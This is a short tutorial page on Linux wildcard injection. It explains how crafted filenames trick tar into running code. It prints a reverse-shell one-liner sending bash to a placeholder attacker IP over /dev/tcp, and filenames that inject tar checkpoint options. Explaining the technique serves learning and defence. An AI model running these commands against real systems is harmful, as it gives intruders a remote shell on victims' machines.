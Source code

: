 ```yaml
---
title: "🐧 Linux"
summary: "Practical Linux security problems and how to exploit them."
---
```


## Wildcard Injection

**Wildcard Injection** is an attack that takes advantage of **wildcards** (`*`, `?`, `[]`) in **Linux** commands to run harmful code. It happens when a user runs commands like `tar`, `rsync`, or `scp` in directories where an attacker has made files with tricky names that look like command options. This can make the system run commands without the user realizing it.

![1](/images/vulnandexp/bash/wcinj1.png)

An attacker can exploit **Wildcard Injection** by creating malicious files in a directory where the victim will execute a command using `*`. For example, they can use:

```
echo "bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1" > revshell.sh
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=bash revshell.sh"
```

When the victim runs a command like `tar -cf backup.tar *`, **tar** will **interpret the filenames as options and execute the code**, starting a **reverse shell** to the attacker.

![1](/images/vulnandexp/bash/wcinj2.png)